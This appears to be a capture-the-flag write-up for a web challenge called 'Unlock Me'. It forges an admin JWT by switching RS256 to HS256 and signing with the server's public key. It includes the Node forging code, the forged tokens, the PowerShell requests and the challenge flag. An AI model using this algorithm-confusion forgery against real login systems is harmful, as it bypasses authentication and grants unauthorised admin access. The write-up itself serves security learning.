 # Unlock Me

> Points: 927 [1000]

## Description 
>Our agents discovered COViD's admin panel! They also stole the credentials **minion:banana**, but it seems that the user isn't allowed in. Can you find another way?  
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)  
>This challenge:
>- Unlocks other challenge(s)
>- Is eligible for Awesome Write-ups Award
>- Prerequisite for Mastery Award - Web Warrior

## Solution
This challenge was interesting as we were able to learn about new jwt type attacks given the public key. Overall it was a freshing and new web challenge for us!

The credentials username banana and banana were given to us. The link brings us to the COViD HQ login. Attempting random credentials gives us the `Incorrect credentials` error. However when attempting to login using the credentials provide, us a different error `Only admins are allowed into HQ!`.

Upon closer inspection into the source code of html this was found
```html
<script>
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
</script>
```

Upon seeing this we thought why not trying to access [public.pem](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) file directly which gave us the actual public.pem.

In addition the `fetch("login")` and `fetch("unlock")` seem to api routes.

As such we decided to query to api directly using powershell's `Invoke-RestMethod` to query the `/login`

```powershell
irm -Method Post "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login" -ContentType "application/json" -Body (@{username="minion";password="banana";}| ConvertTo-Json)
```

This gave us the access token to minion's account will be verified later
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDIxMDcwfQ.x6nDrEn2HrT0Ey807PaevMobHpXxlEBJmRh1DsHEPhuYAJqxRrsgYP6SEpegOZ0WP8TmmHPmXc3Vq0vvZfHy4fKE91_m0a0oC9kyg8TziamJGu7htDl2niivf3w_Kf2A6nvmVc--z8bvGD2ir3gtHr4oncC53K7M7nOSdNbdXEPOczSE-TzijpaunMcr9oltmkMNWqwVl7JZgdTqbgUob5kxk9sSshiZEfZ-U45Ykc1WfecTWC_vgLmMaM8xvgGmcg_DxzM9cIMOC3Cmq96a3X7pZC3JkTk0KSOI1UUrue-2fCm2FimdABy9QrcZc9f4FyiVECX5jlt5Dq5BUFQWWv5k1d3ddOyG0T9EBf-jhmCGl581ixkDFtE44RNP8us2kyaffKWytR11xUEx13-OQowHc9yfIYi6nfbw2_ZCwTJgLBMQmkX72vyhsvAHGTjR8q2UKpEafIxDIVxy8IImXCSyuoOrpwDVzjewmBaLFYdgA80gzEHxYGq5OwMeDusyEFC_piJzy7J6FVJt7XIdxws1beswddaYfkEawRCHwYMqAg_qF63ws9omgyOQmTRq0KSYlyMU-5iOMC9QnKolpgyxqIBUizqV6sCQlKC6b9MYlSfo282vSecAe-EhMG2oE-oq5T_FMPzOyr4w_jh8aeVrHJIWM_qXnJOLuV04m7s
```

At this point we were quite stuck until we manage to find this https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ which mentions the `None` algorithm attack. To test this we installed nodejs and jsonwebtoken
and ran the following code
```javascript
const jwt = require('jsonwebtoken')
let cert = fs.readFileSync('./public.pem')
let token = "thejwttokenfromabove"
payload = jwt.verify(token,cert)
payload
{ username: 'minion', role: 'user', iat: 1607421070 }
```
At this point we altered the payload and tried the none algorithm.

```javascript
payload['username']='admin'
'admin'
payload['role']='admin'
'admin'
payload
{ username: 'admin', role: 'admin', iat: 1607421070 }
jwt.sign(payload,cert,{algorithm:"None"})
Uncaught Error: "algorithm" must be a valid string enum value
    at /root/test/node_modules/jsonwebtoken/sign.js:52:15
    at Array.forEach (<anonymous>)
    at validate (/root/test/node_modules/jsonwebtoken/sign.js:43:6)
    at validateOptions (/root/test/node_modules/jsonwebtoken/sign.js:58:10)
    at Object.module.exports [as sign] (/root/test/node_modules/jsonwebtoken/sign.js:141:5)
```
At this point, I rechecked the same article saw another `RS256` to `HS256` vulnerability. Trying it, I was able to successfully generate a HS256 jwt token!

```javascript
jwt.sign(payload,cert,{algorithm:"HS256"})
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI'
```
Using the token above I tried to call the `/unlock` which gave me the flag! Whoorays!

```powershell
irm "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock" -Headers @{Authorization="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI";}

flag
----
govtech-csg{5!gN_0F_+h3_T!m3S}
``` 

## Flag
`govtech-csg{5!gN_0F_+h3_T!m3S}`

